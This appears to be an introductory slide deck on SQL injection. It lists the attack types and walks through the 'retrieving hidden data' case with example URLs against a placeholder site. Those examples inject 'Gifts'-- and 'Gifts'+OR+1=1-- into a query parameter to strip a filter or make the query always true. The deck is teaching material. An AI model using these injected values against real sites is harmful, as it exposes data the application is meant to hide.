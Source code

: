 # SQL Injection

* code injection technique
* one of the most common web security vulnerability

---

# Vulnerabilities

* Retrieving hidden data
* Subverting application logic
* UNION attacks
* Examining the database
* Blind SQL injection

---

## Retrieving hidden data

```
https://insecure-website.com/products?category=Gifts
SELECT * FROM products
WHERE category = 'Gifts'
AND released = 1
```

----

## Retrieving hidden data

```
https://insecure-website.com/products?category=Gifts'--
SELECT * FROM products
WHERE category = 'Gifts'--' 
AND released = 1
```

----


## Retrieving hidden data

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
SELECT * FROM products
WHERE category = 'Gifts'
OR 1=1--'
AND released = 1
```

---
